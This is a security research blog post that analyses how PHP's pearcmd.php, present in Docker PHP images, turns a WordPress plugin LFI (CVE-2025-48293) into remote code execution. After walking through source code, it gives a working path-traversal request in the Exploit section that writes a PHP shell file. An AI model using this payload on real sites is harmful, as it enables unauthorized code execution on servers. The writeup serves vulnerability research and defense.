






<!--more-->

Hello. After analyzing 10 CVEs related to LFI in WordPress plugins, I noticed a common barrier: many exploitation vectors are constrained by the requirement to **have a `.php` suffix**. This significantly reduces exploitability. During my research I found the article [docker-php-include-getshell](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp). That article describes a way to **bypass the `.php` constraint** by abusing the `pearcmd.php` file which is part of PHP's **PECL/PEAR** toolkit and is present in WordPress environments deployed on Docker — a very practical trick for no-upload scenarios.

## What are PEAR and PECL?

* **PECL (PHP Extension Community Library)**: a command-line tool to install and manage PHP extensions.
* **PEAR (PHP Extension and Application Repository)**: the library platform used by PECL.

Before PHP `7.3`, PEAR/PECL were often installed by default.
From PHP `7.4` onward, PHP must be compiled with `--with-pear` to include them.

However, in official PHP Docker images, PEAR/PECL **are still often included**, located under `/usr/local/lib/php`:

```sh
root@e182501c47c4:/var/www/html# ls /usr/local/lib/php
Archive  Console  OS  PEAR  PEAR.php  Structures  System.php  XML  build  data  doc  extensions  pearcmd.php  peclcmd.php  test
```

## `pearcmd.php` and `register_argc_argv`

`pearcmd.php` is a PHP script designed to run in CLI mode, for example:

```sh
php /usr/local/lib/php/pearcmd.php install somepackage
```

It processes arguments from `$argv` and `$argc`. When run as CLI this data is obvious. If this file is included in a web context (via LFI), its CLI logic can be abused.

The key point is the `register_argc_argv` setting. If `register_argc_argv = On`, PHP will populate:

* `$argc`
* `$argv`
* `$_SERVER['argv']`


When WordPress is set up on Docker, `register_argc_argv` is often enabled by default. The question becomes: when PHP runs under a web SAPI (FPM/Apache) and not in CLI, where does `$argv` come from?

## Analysis of PHP Source Code

In the PHP core there is logic like:

```c
if (PG(register_argc_argv)) {
    if (SG(request_info).argc) {
        ...
    } else {
        php_build_argv(SG(request_info).query_string, &PG(http_globals)[TRACK_VARS_SERVER]);
    }
}
```

If there is no `argc` (not running CLI), PHP calls `php_build_argv` with `SG(request_info).query_string` — i.e., the URL's **query string**. For example:

```
http://example.com/index.php?a=b&c=d
```

→ `query_string = "a=b&c=d"`

PHP will use this query string to build the `argv` variables, so `$_SERVER['argv']` can be influenced by the query string.

**Consequence**:

When `pearcmd.php` is included via LFI in a web environment where `$_SERVER['argv']` is generated from the query string, an attacker can control the command-line parameters that `pearcmd.php` reads. Thus, PEAR/PECL command functionality can be abused via the web to perform unwanted actions.

## RFC3875 Explain

RFC3875 (the CGI spec) defines a form of **"indexed" HTTP query** — that is, a query string without unencoded `=` characters sent via GET or HEAD.

When encountering such a query, the server **SHOULD** treat the query-string as a **search-string**, splitting it into **search-words** separated by `+`:

```
search-string = search-word ( "+" search-word )
search-word = 1*schar
```

After splitting, each `search-word` is URL-decoded, optionally re-encoded as system-defined, then **added to the command-line argument list (`argv`)** of the CGI program.

In short: if the query-string contains no `=` and is a GET or HEAD request, the server may treat parts separated by `+` as arguments and pass them into `argv`.

**RFC3875** allows a server to turn an "indexed" query-string (GET/HEAD, no unencoded `=`) into an argv list. The spec excerpt:

```
4.4. The Script Command Line

Some systems support a method for supplying an array of strings to
the CGI script. This is only used in the case of an 'indexed' HTTP
query, which is identified by a 'GET' or 'HEAD' request with a URI
query string that does not contain any unencoded "=" characters. For
such a request, the server SHOULD treat the query-string as a
search-string and parse it into words, using the rules

search-string = search-word ( "+" search-word )
search-word = 1*schar
schar = unreserved | escaped | xreserved
xreserved = ";" | "/" | "?" | ":" | "@" | "&" | "=" | "," |
"$"

After parsing, each search-word is URL-decoded, optionally encoded in
a system-defined manner and then added to the command line argument
list.
```

PHP previously had a vulnerability related to this ([CVE-2012-1823](https://nvd.nist.gov/vuln/detail/cve-2012-1823)). Today, PHP handles the query-string more broadly than RFC suggests — even when the query-string contains `=`, it can still be added to `$_SERVER['argv']`.



👉 By passing a query string like `?a+b+c+...`, PHP will split on `+` and create `$_SERVER['argv']` as an array `['a', 'b', 'c', ...]`, consistent with RFC3875 semantics.

## Testing PEAR in CLI

The author's article mentions a payload related to `config-create`, described as used to create a configuration file.



When I tried running the command on CLI:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create
config-create: must have 2 parameters, root path and filename to save as
```

When not enough parameters are provided, the program errors and requires two mandatory parameters:

* `root path`: the root directory PEAR uses for package installation and configuration lookup.
* `filename`: the filename to save the configuration as.

Trying with parameters:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create test_root_path test_filename.php
Root directory must be an absolute path beginning with "/", was: "test_root_path"
```

Here PEAR insists `test_root_path` must be an absolute path starting with `/`.

Running again with a valid path:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create /test_root_path test_filename.php
```

The returned output:

```text {hl_lines=[9,10,11,12,13,14,16,17,19,28,29,30,43,45]}
Configuration (channel pear.php.net):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net
HTTP Proxy Server Address      http_proxy       <not set>
PEAR server [DEPRECATED]       master_server    <not set>
Default Channel Mirror         preferred_mirror <not set>
Remote Configuration File      remote_config    <not set>
PEAR executables directory     bin_dir          /test_root_path/pear
PEAR documentation directory   doc_dir          /test_root_path/pear/docs
PHP extension directory        ext_dir          /test_root_path/pear/ext
PEAR directory                 php_dir          /test_root_path/pear/php
PEAR Installer cache directory cache_dir        /test_root_path/pear/cache
PEAR configuration file        cfg_dir          /test_root_path/pear/cfg
directory
PEAR data directory            data_dir         /test_root_path/pear/data
PEAR Installer download        download_dir     /test_root_path/pear/download
directory
Systems manpage files          man_dir          /test_root_path/pear/man
directory
PEAR metadata directory        metadata_dir     <not set>
PHP CLI/CGI binary             php_bin          <not set>
php.ini location               php_ini          <not set>
--program-prefix passed to     php_prefix       <not set>
PHP's ./configure
--program-suffix passed to     php_suffix       <not set>
PHP's ./configure
PEAR Installer temp directory  temp_dir         /test_root_path/pear/temp
PEAR test directory            test_dir         /test_root_path/pear/tests
PEAR www files directory       www_dir          /test_root_path/pear/www
Cache TimeToLive               cache_ttl        <not set>
Preferred Package State        preferred_state  <not set>
Unix file mask                 umask            <not set>
Debug Log Level                verbose          <not set>
PEAR password (for             password         <not set>
maintainers)
Signature Handling Program     sig_bin          <not set>
Signature Key Directory        sig_keydir       <not set>
Signature Key Id               sig_keyid        <not set>
Package Signature Type         sig_type         <not set>
PEAR username (for             username         <not set>
maintainers)
User Configuration File        Filename         /var/www/html/test_filename.php
System Configuration File      Filename         #no#system#config#
Successfully created default configuration file "/usr/www/html/test_filename.php"
```

The result shows child paths for each type of data being auto-generated under `/test_root_path/pear`. On the last line:

```
Successfully created default configuration file "/usr/www/html/test_filename.php"
```

The configuration file was created in the current working directory, not under `root_path`. This is PEAR's default behavior: `root_path` only affects the layout of install directories, not the location of the saved config file.

When accessing the file `"/var/www/html/test_filename.php"` via a browser:



The created file contains information about `test_root_path`, presented in `serialize` format.

However, that was the CLI execution path. For web exploitation, one must analyze the source to see how the program accepts and processes parameters passed in.

## `pearcmd` Code Analysis

Before analyzing `/usr/local/lib/php/pearcmd.php`, it's useful to set up a debugging environment to observe execution flow — see: [https://w41bu1.github.io/2025-10-22-wordpress-local-and-debugging-docker/](https://w41bu1.github.io/2025-10-22-wordpress-local-and-debugging-docker/)

Then copy all PHP source from the container to a local machine, preserving directory structure, so when the debugger stops at `/usr/local/lib/php/pearcmd.php` you can open and inspect the corresponding file from the container:

```
sudo docker cp wordpress:/usr/local/lib/php/ /usr/local/lib/php/
```

```php {title="/usr/local/lib/php/pearcmd.php"}
require_once 'PEAR.php';
require_once 'PEAR/Frontend.php';
require_once 'PEAR/Config.php';
require_once 'PEAR/Command.php';
require_once 'Console/Getopt.php';

$all_commands = PEAR_Command::getCommands();
...
$argv = Console_Getopt::readPHPArgv();
...
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
array_shift($argv);
...
$command = (isset($options[1][0])) ? $options[1][0] : null;
...
if ($fetype == 'Gtk2') {
    ...
} else {
    do {
        ...
        $cmd = PEAR_Command::factory($command, $config);
        ...
        list($tmpopt, $params) = $tmp;
        ...
        $ok = $cmd->run($command, $opts, $params);
        if ($ok === false) {
            PEAR::raiseError("unknown command `$command'");
        }
        ...
    } while (false);
}
```

First, all commands are loaded into `$all_commands`:

```php
$all_commands = PEAR_Command::getCommands();
```

```php {title="/usr/local/lib/php/PEAR/Command.php"}
public static function getCommands()
{
    if (empty($GLOBALS['_PEAR_Command_commandlist'])) {
        PEAR_Command::registerCommands();
    }
    return $GLOBALS['_PEAR_Command_commandlist'];
}
```

`getCommands()` calls `registerCommands()` to register the commands.


Then `$argv` is initialized:

```php
$argv = Console_Getopt::readPHPArgv();
```

```php {title="php/Console/Getopt.php" hl_lines=[4,12]}
public static function readPHPArgv()
{
    global $argv;
    if (!is_array($argv)) {
        if (!@is_array($_SERVER['argv'])) {
            if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                $msg = "Could not read cmd args (register_argc_argv=Off?)";
                return PEAR::raiseError("Console_Getopt: " . $msg);
            }
            return $GLOBALS['HTTP_SERVER_VARS']['argv'];
        }
        return $_SERVER['argv'];
    }
    return $argv;
}
```

If `$argv` is not an array (i.e., no valid data), the function tries to find the equivalent in `$_SERVER['argv']` and return it — that is, the `search-word` parts we pass in the URL. Example:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php HTTP/1.1
```

Observed in the debugger:


Next `$argv` has its first element removed and is passed to `Console_Getopt::getopt2()`, the return value assigned to `$options`:

```php
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

The value is now:


The `$command` variable is initialized from `$options[1][0]`, in this case `config-create`.

```php
$command = (isset($options[1][0])) ? $options[1][0] : null;
```

Then a factory is created and assigned to `$cmd`:

```php
$cmd = PEAR_Command::factory($command, $config);
```

Hovering `$cmd` shows the required parameters for the `config-create` command.


Notably, the execution function for `config-create` is `doConfigCreate`:

```php {title="/usr/local/lib/php/PEAR/Command.php" hl_lines=[54]}
function doConfigCreate($command, $options, $params)
{
    if (count($params) != 2) {
        return PEAR::raiseError('config-create: must have 2 parameters, root path and ' .
            'filename to save as');
    }

    $root = $params[0];
    // Clean up the DIRECTORY_SEPARATOR mess
    $ds2 = DIRECTORY_SEPARATOR . DIRECTORY_SEPARATOR;
    $root = preg_replace(array('!\\\\+!', '!/+!', "!$ds2+!"),
                            array('/', '/', '/'),
                        $root);
    if ($root[0] != '/') {
        if (!isset($options['windows'])) {
            return PEAR::raiseError('Root directory must be an absolute path beginning ' .
                'with "/", was: "' . $root . '"');
        }

        if (!preg_match('/^[A-Za-z]:/', $root)) {
            return PEAR::raiseError('Root directory must be an absolute path beginning ' .
                'with "\\" or "C:\\", was: "' . $root . '"');
        }
    }

    $windows = isset($options['windows']);
    if ($windows) {
        $root = str_replace('/', '\\', $root);
    }

    if (!file_exists($params[1]) && !@touch($params[1])) {
        return PEAR::raiseError('Could not create "' . $params[1] . '"');
    }

    $params[1] = realpath($params[1]);
    $config = new PEAR_Config($params[1], '#no#system#config#', false, false);
    if ($root[strlen($root) - 1] == '/') {
        $root = substr($root, 0, strlen($root) - 1);
    }

    $config->noRegistry();
    $config->set('php_dir', $windows ? "$root\\pear\\php" : "$root/pear/php", 'user');
    $config->set('data_dir', $windows ? "$root\\pear\\data" : "$root/pear/data");
    $config->set('www_dir', $windows ? "$root\\pear\\www" : "$root/pear/www");
    $config->set('cfg_dir', $windows ? "$root\\pear\\cfg" : "$root/pear/cfg");
    $config->set('ext_dir', $windows ? "$root\\pear\\ext" : "$root/pear/ext");
    $config->set('doc_dir', $windows ? "$root\\pear\\docs" : "$root/pear/docs");
    $config->set('test_dir', $windows ? "$root\\pear\\tests" : "$root/pear/tests");
    $config->set('cache_dir', $windows ? "$root\\pear\\cache" : "$root/pear/cache");
    $config->set('download_dir', $windows ? "$root\\pear\\download" : "$root/pear/download");
    $config->set('temp_dir', $windows ? "$root\\pear\\temp" : "$root/pear/temp");
    $config->set('bin_dir', $windows ? "$root\\pear" : "$root/pear");
    $config->set('man_dir', $windows ? "$root\\pear\\man" : "$root/pear/man");
    $config->writeConfigFile();
    $this->_showConfig($config);
    $this->ui->outputData('Successfully created default configuration file "' . $params[1] . '"',
        $command);
}
```

The function requires exactly 2 parameters: `root path` and `filename`. If not, it errors.

```php
if (count($params) != 2) {
    return PEAR::raiseError('config-create: must have 2 parameters, root path and ' .
        'filename to save as');
}
$root = $params[0];
```

If the first character of the root path is not `/`, the function checks whether the `windows` option is set.

```php
if ($root[0] != '/') {
    if (!isset($options['windows'])) {
        return PEAR::raiseError('Root directory must be an absolute path beginning ' .
            'with "/", was: "' . $root . '"');
    }

    if (!preg_match('/^[A-Za-z]:/', $root)) {
        return PEAR::raiseError('Root directory must be an absolute path beginning ' .
            'with "\\" or "C:\\", was: "' . $root . '"');
    }
}
$windows = isset($options['windows']);
if ($windows) {
    $root = str_replace('/', '\\', $root);
}
```

* If not Windows → error because the path must start with `/`.
* If Windows → verify `C:` style path and convert `/` to `\` if needed.

Then it attempts to create and validate the output config file:

```php
if (!file_exists($params[1]) && !@touch($params[1])) {
    return PEAR::raiseError('Could not create "' . $params[1] . '"');
}
$params[1] = realpath($params[1]);
```

* If the file doesn't exist, it attempts `touch()` to create it. If that fails → error.
* Uses `realpath` to obtain the absolute path.

Create a config object and normalize `$root`:

```php
$config = new PEAR_Config($params[1], '#no#system#config#', false, false);
if ($root[strlen($root) - 1] == '/') {
    $root = substr($root, 0, strlen($root) - 1);
}
$config->noRegistry();
```

Set directory values:

```php
$config->set('php_dir', $windows ? "$root\\pear\\php" : "$root/pear/php", 'user');
$config->set('data_dir', $windows ? "$root\\pear\\data" : "$root/pear/data");
...
$config->set('man_dir', $windows ? "$root\\pear\\man" : "$root/pear/man");
```

Finally write the configuration file, display it, and report success:

```php {hl_lines=[1]}
$config->writeConfigFile();
$this->_showConfig($config);
$this->ui->outputData('Successfully created default configuration file "' . $params[1] . '"',
    $command);
```

`writeConfigFile()` is the function responsible for writing the config file.

```php {title="/usr/local/lib/php/PEAR/Command/Config.php" hl_lines=[38,39,40,41]}
function writeConfigFile($file = null, $layer = 'user', $data = null)
{
    $this->_lazyChannelSetup($layer);
    if ($layer == 'both' || $layer == 'all') {
        foreach ($this->files as $type => $file) {
            $err = $this->writeConfigFile($file, $type, $data);
            if (PEAR::isError($err)) {
                return $err;
            }
        }
        return true;
    }

    if (empty($this->files[$layer])) {
        return $this->raiseError("unknown config file type `$layer'");
    }

    if ($file === null) {
        $file = $this->files[$layer];
    }

    $data = ($data === null) ? $this->configuration[$layer] : $data;
    $this->_encodeOutput($data);
    $opt = array('-p', dirname($file));
    if (!@System::mkDir($opt)) {
        return $this->raiseError("could not create directory: " . dirname($file));
    }

    if (file_exists($file) && is_file($file) && !is_writeable($file)) {
        return $this->raiseError("no write access to $file!");
    }

    $fp = @fopen($file, "w");
    if (!$fp) {
        return $this->raiseError("PEAR_Config::writeConfigFile fopen('$file','w') failed ($php_errormsg)");
    }

    $contents = "#PEAR_Config 0.9\n" . serialize($data);
    if (!@fwrite($fp, $contents)) {
        return $this->raiseError("PEAR_Config::writeConfigFile: fwrite failed ($php_errormsg)");
    }
    return true;
}
```

This function is the one that writes the config file by `serialize($data)` to convert the configuration into a storable string.

Back in `pearcmd.php`, the params are prepared and assigned to `$params`.

```php
list($tmpopt, $params) = $tmp;
```



Finally, `$cmd` is executed via `$cmd->run()`:

```php
$ok = $cmd->run($command, $opts, $params);
```

## Flow

1. Send a GET request:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php
```

2. The web app `include`s `/usr/local/lib/php/pearcmd.php`.

3. PHP (with register_argc_argv=On) builds `$_SERVER['argv']` from the query → `['action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&','config-create','/test_root_path','test_filename.php']`.

4. `Console_Getopt::readPHPArgv()` returns `$argv`; `Console_Getopt::getopt2()` parses and yields `$command='config-create'` and `list($tmpopt, $params)` gives `$params=['/test_root_path','test_filename.php']`.

5. `doConfigCreate()` runs with `$params` controlled by the attacker → `touch()`/`realpath()` and `writeConfigFile()` create/write the file.

> [!INFO]
> The created config file contains the `root path` value. If this value is written as a valid PHP tag (`<?php ... ?>`) and the file is accessible by the client, the webserver will process the PHP content in that file and the code will be executed, leading to **RCE**.

## Exploit

Leveraging [CVE-2025-48293](https://w41bu1.github.io/2025-10-13-cve-2025-48293/) analyzed earlier to expand into an exploit via `pearcmd.php`

Send a request with an LFI payload pointing to `pearcmd.php`:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo();?>+/var/www/html/shell.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```

**Successful response returned**:



Accessing `shell.php`:


